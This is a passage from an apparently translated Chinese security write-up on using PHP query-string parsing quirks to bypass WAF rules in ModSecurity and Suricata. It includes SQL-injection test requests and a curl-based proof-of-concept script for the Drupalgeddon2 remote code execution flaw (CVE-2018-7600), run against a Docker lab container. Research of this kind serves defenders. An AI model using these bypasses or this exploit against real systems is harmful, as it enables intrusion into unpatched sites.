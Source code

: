 当然，这条规则交换参数位置即可绕过，比如：

```
/view.php?key=d3b07384d113edec49eaa6238ad5ff00&i=1
```

## WAF（ModSecurity）

此外，PHP查询字符串的解析特性也可用以绕过WAF。想象一下,它的规则类似于SecRule !ARGS:news_id "@rx ^[0-9]+$" "block"，这显然可以通过相同的手段绕过。幸运的是，在ModSecurity中，可以通过正则表达式指定查询字符串中的参数。比如：

```
SecRule !ARGS:/news.id/ "@rx ^[0-9]+$" "block"
```

以上规则将拦截诸如以下的请求：

```
⛔️/?news[id=1%22+AND+1=1--'
⛔️/?news%5bid=1%22+AND+1=1--'
⛔️/?news_id%00=1%22+AND+1=1--'
```

## PoC || GTFO

让我们用Suricata和Drupal CMS创建一个以利用[CVE-2018-7600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600)（Drupalgeddon2远程执行代码）的简单PoC。为了简单起见，我将在两个Docker容器上运行Suricata和Drupal，并尝试绕过Suricata攻击Drupal。

我将使用两条Suricata防御规则：

> 1.一条自定义规则拦截form_id=user_register_form
>
> 2.另一条是关于CVE-2018-7600的通用[规则](https://github.com/ptresearch/AttackDetection/tree/master/CVE-2018-7600)

![img](https://image.3001.net/images/20190904/1567560463_5d6f130fe4b66.png!small)

Suricata官方安装流程点击[这里](https://redmine.openinfosecfoundation.org/projects/suricata/wiki/Ubuntu_Installation_-_Personal_Package_Archives_(PPA)。对于Drupal，我运行了一个Vulhub容器，你可以在[这里](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600)下载：

![img](https://image.3001.net/images/20190904/1567560473_5d6f1319a7cb5.png!small)

首先，让我们尝试利用CVE-2018-7600。一个利用curl命令的小型bash脚本，比如：

```
#!/bin/bash
URL="/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
QSTRING="form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]="
COMMAND="id"
curl -v -d "${QSTRING}${COMMAND}" "http://172.17.0.1:8080$URL"
```

如你所见，上面的脚本将执行命令id：

![img](https://image.3001.net/images/20190904/1567560483_5d6f13234614b.png!small)
